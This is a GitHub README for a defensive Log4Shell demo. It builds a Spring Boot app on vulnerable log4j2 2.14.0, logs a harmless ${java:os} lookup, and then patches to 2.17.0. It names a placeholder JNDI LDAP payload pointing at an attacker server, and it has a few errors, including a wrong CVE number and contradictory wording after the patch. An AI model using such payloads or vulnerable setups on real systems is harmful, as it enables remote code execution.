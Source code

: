 # [Log4Shell](https://github.com/WISeAgent/log4j2) Demo - a non-intructive and user friendly version
Apache Log4j2 2.0-beta9 through 2.12.1 and 2.13.0 through 2.15.0 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.  

**tl;dr**

Log4Shell vulnerability in plain English:
1. Vulnerable Web application trusts the user data which shouldn't be trusted, eg. this demo project
2. Vulnerable Log4j2 is used by web app for logging 
3. The lookup implementation in Vulnerable Log4j2 version envluates variable ${key:value} in log message and substitute the variable with value.  It opens the door and exposes the vulnerability.
Once the door can be opened, all you need is your imagation/creativity to craft various of payloads and delivery methods to exploit this log4j2 vulnerability.
CVS-2021-42288 use carefully brafted ${jndi:ldap://....} payout.

**Hacking is illegal!** It's not a good idea to encourage exploitation of this vulunerability.  That being said, developer/blue team member should have better understand on the "how" so to build a better and secured application.

Spring Boot is using logback by default.  It is also supporting the use of log4j2 and hance it's exposed to this vulnerability if not patched.

The purpose of this demo is for developer/blue team member to understand how older version of log4j2 is being exploitted and how to patch it.  Instead of using ${jndi:ldap://attackerserver.com/RCE} as payload, we display the OS version instead in this demo.  

## Create a New Maven Demo Project for Log4Shell(CVE-2021-44228)
### 1. Create an empty project using Spring CLI
    spring init --name=vul-log4j2 packaging=jar --package-name=au.com.wiseagent.springboot.log4j2 -a=vul-log4j2 --dependencies=web log4j2
    
### 2. Update pom.xml to use vulnerable version of log4j2
- Under <properties> section, inster a line to use vulnerable log4j2 verion, eg. 2.14.0  

      <properties>
      <java.version>1.8</java.version>
      <!-- to use the vulnerable version: CVE-2021-44228 -->
      <log4j2.version>2.14.0</log4j2.version>
      </properties>
  
- To disable default logback, and using log4j2  

      <!-- Exclude Spring Boot's Default Logging -->
      <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter</artifactId>
        <!-- disable default logging -->
        <exclusions>
          <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
          </exclusion>
        </exclusions>
      </dependency>

      <!-- Add Log4j2 Dependency -->
      <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-log4j2</artifactId>
      </dependency>
### 3. Import the Maven project to your Eclipse IDE

### 4. Use Log4J2 log, to log environment variable ${java:os} as INFO instead of ${jndi:ldap://...} trigger RCE
Here is the cutdown version of the REST API implemention pass payload as RequestParam.  
For demo purpose, instead of sanitized the payload, it's hard coded to a non-instructive operation, to log the environment value for OS 

    package au.com.wiseagent.springboot.log4j2;

    import org.springframework.boot.SpringApplication;
    import org.springframework.boot.autoconfigure.SpringBootApplication;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.PathVariable;
    import org.springframework.web.bind.annotation.RequestParam;
    import org.springframework.web.bind.annotation.ResponseBody;
    import org.springframework.web.bind.annotation.RestController;
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;

    @SpringBootApplication
    @RestController
    public class VulLog4j2Application {
        private static Logger logger = LogManager.getLogger(VulLog4j2Application.class);
        public static void main(String[] args) {
          SpringApplication.run(VulLog4j2Application.class, args);
        }

      @GetMapping("/PayLoad")
      @ResponseBody
        public String PayLoad(@RequestParam  String payload) {
        payload="${java:os}"; // override the payload
        logger.info(payload);
        return "payload received" + payload;
      }
    }

 ### 5. Start your REST API service from IDE or from command line  
    
        java -jar target/vul-log4j2-0.0.1-SNAPSHOT.jar
 
    
From your browser, entry to the following to trigger the REST API call.  
  
    http://localhost:8080/PayLoad?payload=$%7Bjava:os%7D
  
  ![image](https://user-images.githubusercontent.com/853925/147844381-a20bc303-47eb-4d8f-9c1e-582c9bd6d017.png)

**It can be observed that the variable ${java:os} has been evaluated, and replaced by the OS value in the log.**
## Patch your application for Log4Shell
### Update pom.xml file to use updated version of log4j2, which patched the CVE-2021-44228

      <properties>
      <java.version>1.8</java.version>
      <!-- to use updated version patched the CVE-2021-44228 -->
      <log4j2.version>2.17.0</log4j2.version>
      </properties>

### Stop and Start your REST API service from IDE or from command line again
From your browse, entry to the following to trigger the REST API call, and noticed that the ${java:OS} variable has been replace by the OS value in the INFO log.  
  
    http://localhost:8080/PayLoad?payload=$%7Bjava:os%7D
![image](https://user-images.githubusercontent.com/853925/147844478-65d0da64-f98a-4f11-b45a-d9a420f1ed04.png)


**It can be observed that the variable ${java:os} has not been evaluated, and it has elimiated the opportunity that an unsanitized user input being used to exploit the log4j2 vulnerability.**
